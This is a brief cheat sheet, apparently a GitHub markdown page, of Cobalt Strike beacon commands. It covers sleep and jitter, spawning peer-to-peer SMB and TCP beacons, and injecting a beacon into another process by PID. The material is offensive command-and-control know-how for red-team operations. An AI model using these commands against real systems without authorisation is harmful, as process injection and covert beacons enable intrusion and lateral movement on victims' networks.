 # CobaltStrike

## Command References


### Beacons
#### sleep
```css
sleep 60 50                                 ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```



#### SMB Beacn
```css
spawn <SMB-Listner-Name>                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject <PID> <x86|x64> <SMB-Listner-Name>   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```css
spawn <TCP-Listner-Name>                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject <PID> <x86|x64> <TCP-Listner-Name>   ; Useful when trying to spawn P2P beacon as different user context
```
